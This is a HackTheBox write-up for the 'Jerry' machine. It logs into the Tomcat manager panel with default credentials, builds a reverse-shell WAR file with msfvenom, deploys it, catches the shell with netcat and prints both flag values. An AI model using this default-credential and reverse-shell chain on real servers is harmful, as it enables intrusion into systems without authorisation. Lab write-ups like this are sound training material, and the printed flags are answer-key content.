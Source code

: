 ```yaml
---
layout: post
title:  "HackTheBox: Jerry" 
description: Write up and complete walkthrough of HackTheBox's Jerry
---
```


**Overview**

Jerry is a retired HTB easy windows machine. It is running an Apache Tomcat webserver through which we get manager rights using the default credentials. We can then use the manager panel to upload a malicious WAR file containing a reverse shell generated with metasploit. There is no enumeration to be done once on the target machine.

# Enumeration: Initial scan

```terminal
Nmap scan report for 10.10.10.95
Host is up (0.097s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

We have only one open port it looks like, on port 8080, running an Apache Tomcat webserver.

# Webserver

If we navigate to `10.10.10.95:8080`, we'll be greeted by tomcat's default landing page. We can navigate to the web application manager section, but this prompts us to input a password and a username. If you neglect to put anything and try to log in, you'll be redirected to an unauthorized page containing some default credentials as examples: `username: tomcat` and `password: s3cret`.


We can use those to login to the manager app and see the some more information.

The first thing we can see is that we have some paths
![Untitled](/assets/20210630150435.png)

None of these links point to anything too interesting, except perhaps the `host-manager` path, but it requires authentication, which we don't seem to have with the default credentials provided by tomcat.

Further down, we can also see that we can deploy files or WAR's to the webserver and also the server information:

- Tomcat Version: `Apache Tomcat/7.0.88`
- JVM Version: `1.8.0_171-b11`
- JVM Vendor: `Oracle Corporation`
- OS Name: `Windows Server 2012 R2`
- OS Version: `6.3`
- OS Architecture `amd64`
- Hostname: `JERRY`
- IP Address: `10.10.10.95`

These could be useful.

# Searching for an exploit

Because most of the tomcat exploits need to have access to the `/manager` page before we can do anything, the process of exploiting the machine becomes more tedious. Thankfully for us, we already have access to the manager dashboard, therefore we can already try to exploit it. The most obvious way would be to try to inject a reverse shell using a malicious WAR file.

The particular payload I used is located on the [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#war) github repo.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
strings reverse.war | grep jsp # in order to get the name of the file
```

Define the LHOST and the LPORT accordingly to match your machine's IP Address on the HTB network and listener port.

Once the file has been generated, use the `/manager` dashboard to upload it and you should see it pop up in the list of application paths under the name `/reverse` by default. Navigating to `10.10.10.95:8080/reverse` after setting up a listener will trigger a request to your listener and get you a shell:

```terminal
$ nc -lvp 4242
listening on [any] 4242 ...
10.10.10.95: inverse host lookup failed: Host name lookup failure
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.95] 49195
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

We now have a shell.

# Finding the flags

If you dig around a bit and look through the directories, you'll see that there is an administrator user on the machine. You can directly access the contents of the Desktop and find a folder titled `flags` in which you will find both flags:

```cmd
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```

We have our two flags!